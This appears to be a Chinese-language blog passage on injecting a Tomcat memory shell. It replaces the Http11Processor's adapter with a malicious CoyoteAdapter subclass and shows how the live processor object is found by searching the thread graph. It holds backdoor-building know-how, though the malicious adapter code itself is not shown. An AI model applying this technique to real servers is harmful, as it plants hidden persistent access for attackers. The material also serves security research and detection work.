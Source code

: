 ## 总体思路代码

- 新建一个重写了恶意 `service` 方法的Adapter对象（继承 `CoyoteAdapter` 类）；
- 拿到特定的 `Http11Processor` 对象；
- 然后将恶意的Adapter对象设置在特定的 `Http11Processor` 对象。

```java
Adapter myadapter = new myAdapter(new Connector("HTTP/1.1"));
Http11Processor http11Processor = getHttp11Processor();
http11Processor.setAdapter(myadapter);
```

## 获取 Http11Processor

这里不想反复调试了，直接写个 Servlet 调试一下。首先要先获得当前的对象 `Http11Processor`，用工具查找一下

```
List<Keyword> keys = new ArrayList<>();
keys.add(new Keyword.Builder().setField_type("Http11Processor").build());
//新建一个广度优先搜索Thread.currentThread()的搜索器
SearchRequstByBFS searcher = new SearchRequstByBFS(Thread.currentThread(),keys);
//打开调试模式
searcher.setIs_debug(true);
//挖掘深度为20
searcher.setMax_search_depth(20);
//设置报告保存位置
searcher.setReport_save_path("E:\\Vuln\\Environment\\Tomcat\\Tomcat_8.5.30\\apache-tomcat-8.5.30\\bin\\java-object-searcher-log");
searcher.searchObject();
```

结果只有一个，一切都是刚刚好

```
TargetObject = {org.apache.tomcat.util.threads.TaskThread} 
  ---> group = {java.lang.ThreadGroup} 
   ---> threads = {class [Ljava.lang.Thread;} 
    ---> [15] = {java.lang.Thread} 
     ---> target = {org.apache.tomcat.util.net.NioEndpoint$Poller} 
      ---> this$0 = {org.apache.tomcat.util.net.NioEndpoint} 
         ---> handler = {org.apache.coyote.AbstractProtocol$ConnectionHandler} 
          ---> connections = {java.util.Map<S, org.apache.coyote.Processor>} 
           ---> [org.apache.tomcat.util.net.NioChannel@2e2f7d01:java.nio.channels.SocketChannel[connected local=/0:0:0:0:0:0:0:1:8088 remote=/0:0:0:0:0:0:0:1:54330]] = {org.apache.coyote.http11.Http11Processor}
```

线程中找到对象 `Http11Processor@3141`

![image-20230213174937372](https://laughing-markdown-pics.oss-cn-shenzhen.aliyuncs.com/image-20230213174937372.png)

### 难点

这里的问题在于，看到图上的 `table` 是一个“内部类对象数组”，怎么往下获取到我们的 `val` 是关键。
